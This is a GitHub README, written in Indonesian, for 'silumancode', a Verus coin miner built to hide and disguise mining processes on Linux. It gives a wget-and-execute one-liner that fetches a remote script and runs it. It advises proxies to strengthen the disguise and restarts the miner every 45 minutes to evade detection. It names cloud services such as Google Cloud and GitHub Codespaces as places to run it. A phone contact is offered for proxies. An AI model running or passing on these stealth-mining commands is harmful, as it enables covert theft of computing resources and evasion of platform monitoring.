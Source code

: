 # silumancode
miner verus coin yang mampu menyembunyikan dan menyamarkan proses mining di sistem linux
## install dependence :
 apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential -y
## Penggunaan
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh && ./sh wallet.namaminer pool thread y/n
### Keterangan :
        - wallet : alamat walet verus miner anda.
        - pool   : pool mining verus coin (usahakan menggunakan proxy).
        - thread : jumlah thread processor yang akan digunakan (usakan tidak menggunakan thread maksimal yang tersedia).
        - y/n    : opsi untuk menampilkan proses mining dari miner (y untuk menampilkan, no tidak menampilkan).
### example
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 n
![tampilan example](images/cmsil.png)
### example II
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 y
![tampilan example II](images/cmsil2.png)
### Catatan Tambahan
1. gunakan proxy untuk memaksimalkan proses penyamaran proses mining, untuk pembuatan proxy miner bisa menghubungi contak wa : 085217993737
2. proses miner akan di restart setiap 45 menit (untuk menghindari deteksi system)
3. berfungsi di vps selain colab. (google cloud, codespace github dan vps lainnya)
4. kode ini hanya sementara untuk penggunaan jangka panjang dan mining coin lain, bisa menghubungi contak wa : 085217993737
